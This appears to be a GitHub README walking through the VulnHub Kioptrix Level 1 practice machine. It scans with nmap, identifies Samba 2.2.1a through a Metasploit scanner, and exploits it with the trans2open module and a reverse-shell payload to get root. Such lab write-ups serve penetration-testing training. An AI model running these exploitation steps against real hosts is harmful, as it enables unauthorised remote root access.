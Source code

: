 # Description
Kioptrix Level 1 is a beginner-level Capture The Flag (CTF) virtual machine from VulnHub, designed to teach penetration testing and ethical hacking skills. This walkthrough will guide you through the process of exploiting the machine to gain root access.  

![Screenshot 2025-02-28 211116](https://github.com/user-attachments/assets/23a41570-7a7a-43b6-befc-21fcbd5651b4)

#  Scanning  
```nmap -sV -A -sC -p- [ Target IP ]```  

![Screenshot From 2025-02-27 12-27-50](https://github.com/user-attachments/assets/f0a02c5b-6835-463b-b633-25c81dfff3bb)  

# Service Enumeration  
Exploit Port 139/tcp  

Open metasploit  
```msfconsole```  

Search for Samba Version  
msf6 > ``` search smb_version```  

```use auxiliary/scanner/smb/smb_version```


![Screenshot From 2025-02-27 12-12-03](https://github.com/user-attachments/assets/65205d94-616c-4dee-8542-c8d440572f84)  

```show option```  

![Screenshot From 2025-02-27 12-16-48](https://github.com/user-attachments/assets/e8725956-d251-4f92-87b1-6c0826cfd41f)  

``` set RHOSTS [ Target IP ] ```  
``` run ``` or ``` exploit ```    

![Screenshot From 2025-02-27 12-17-19](https://github.com/user-attachments/assets/19d8a3e7-7398-491e-acce-061bf35f42f3)  

**samba version is 2.2.1a**

# Exploitation  

Open Metasploit ``` msfconsole ```  
``` use exploit/linux/samba/trans2open```  
```show options```  
``` set RHOSTS [ Target IP ] ```  
``` set payload generic/shell_reverse_tcp```  

``` set LHOST [ Your IP ] ```  
``` exploit ``` or ``` run ```  

![Screenshot From 2025-02-27 12-27-16](https://github.com/user-attachments/assets/71b5cc3d-26a3-41b6-b647-97309183ed53)  


![Screenshot From 2025-02-27 12-27-29](https://github.com/user-attachments/assets/ce720073-ad7e-49ba-9b8c-6962592baeda)  

#  

**Whoop whoop!!! You have ROOT access.**  
#  












